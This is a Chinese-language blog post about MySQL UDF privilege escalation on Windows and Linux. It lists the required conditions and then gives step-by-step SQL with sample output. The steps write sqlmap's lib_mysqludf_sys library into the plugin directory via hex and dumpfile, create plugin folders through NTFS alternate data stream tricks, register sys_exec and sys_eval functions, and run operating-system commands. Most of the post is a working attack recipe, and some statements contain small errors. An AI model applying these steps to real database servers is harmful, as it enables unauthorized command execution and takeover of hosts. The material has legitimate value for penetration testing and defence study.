 ```yaml
---
layout: post
title: MySQL UDF Rights
date: 2019-9-26
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```


### 1.UDF是什么

UDF（user defined function）用户自定义函数,是MySQL的一个扩展接口，称为用户自定义函数,是用来拓展MySQL的技术手段，用户通过自定义函数来实现在MySQL中无法实现的功能。文件后缀为`.dll`,常用c语言编写。可以执行系统命令,将MySQL账号root转化为系统system权限。

### 2.windows下udf提权的条件

1. 如果MySQL的版本大于5.1，`udf.dll`文件必须放在MySQL的安装目录`lib\plugin`文件夹下
2. 如果MySQL的版本小于5.1，`udf.dll`文件在`windows server 2003`下放置在`c:\windows\system32`,在`windows server 2000` 下放在`c:\winnt\system32`目录
3. 掌握MySQL数据库账户,从拥有对MySQL有增删改查权限。如果是root用户就更好了
4. 拥有可以将`udf.dll`写入相应目录的权限

### 3.提权方法

1. 获取MySQL的安装路径。使用`show variables like '%plugins%';`
2. 获取MySQL数据库的版本`select version();`
3. sqlmap中有现在的`udf`文件。分别是32位和64位的。需要选择对应的版本否则就会报错。版本是MySQL的版本不是window的版本.除了MySQL的`udf`文件还有`postgresql`

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926170548.png)

4. postgresql 也是同样分为window和Linux

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926170629.png)

5. **导出路径**

   1. MySQL版本小于5.1

   ```txt
   C:\\Windows\system32\udf.dll
   ```

   2. MySQL版本大于5.1

   ```txt
   MySQL安装路径\lib\plugin\udf.dll
   ```

   3. 由于该目录默认不存在，需要利用创建这个目录，然后将`udf.dll`导出到该目录。

6. 创建libplugin方法：

   - 利用WebShell创建
   - 利用NTFS ADS流创建目录：

   ```sql
   select @@basedir;  找到MySQL目录
    
   select '这里填dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION';  利用NTFS ADS创建lib目录 
    
   select '这里填dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION'; 利用NTFS ADS创建plugin目录
   ```

7. 创建sys_exec函数

   ```sql
   create function sys_exec returns string soname 'udf.dll'; 
   ```

8. 执行命令

   ```sql
   select sys_exec('whoami');
   ```

9. 删除函数

   ```sql
   drops function sys_exec; 将函数删除
   ```

10. 导出的SQL语句

    ```sql
    create table a (cmd LONGBLOB);
    
    insert into a (cmd) values (hex(load_file('D:\\Program Files\\MySQL\\MySQL Server 5.0\\Lib\\Plugin\\lib_mysqludf_sys.dll'))); 
    
    SELECT unhex(cmd) FROM a INTO DUMPFILE 'c:\\windows\\system32\\udf.dll';
    
    create function sys_eval returns string soname 'udf.dll'
    
    select sys_eval('ipconfig');
    ```



### 4.Linux下的提权

**要求**

1. 在MySQL库下必须有func表，并且在‑‑skip‑grant‑tables开启的情况下，UDF会被禁止；
2. SQL具有权限，root权限
3. 导出目录可写

**获取插件路径**

```sql
mysql> show variables like "%plugin%";
+---------------+-----------------------+
| Variable_name | Value         |
+---------------+-----------------------+
| plugin_dir  | /usr/lib/mysql/plugin |
+---------------+-----------------------+
1 row in set (0.00 sec)
```



**获取udf文件**

```shell
root@kali:/pentest/sqlmap/udf/mysql# ls
linux windows
root@kali:/pentest/sqlmap/udf/mysql/linux# ls
32 64
root@kali:/pentest/sqlmap/udf/mysql/linux/64# ls
lib_mysqludf_sys.so
```

**在SQL中加载库文件**

```sql
mysql> select hex(load_file('/pentest/database/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
Query OK, 1 row affected (0.04 sec)
```

**写入udf库到MySQL目录**

```sql
mysql> select unhex('7F454C46020...') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
Query OK, 1 row affected (0.04 sec)
```

**加载函数执行命令**

```sql
mysql> create function sys_eval returns string soname "mysqludf.so";
Query OK, 0 rows affected (0.14 sec)
  
mysql> select sys_eval('whoami');
+--------------------+
| sys_eval('whoami') |
+--------------------+
| mysql       |
+--------------------+
1 row in set (0.04 sec)
  
mysql> select * from mysql.func;
+----------+-----+-------------+----------+
| name   | ret | dl     | type   |
+----------+-----+-------------+----------+
| sys_eval |  0 | mysqludf.so | function |
+----------+-----+-------------+----------+
1 row in set
```



### 总结

MySQL提权总的来说还是需要有条件限制的。但是在某些情况下这种提权方法往往是最有效的。



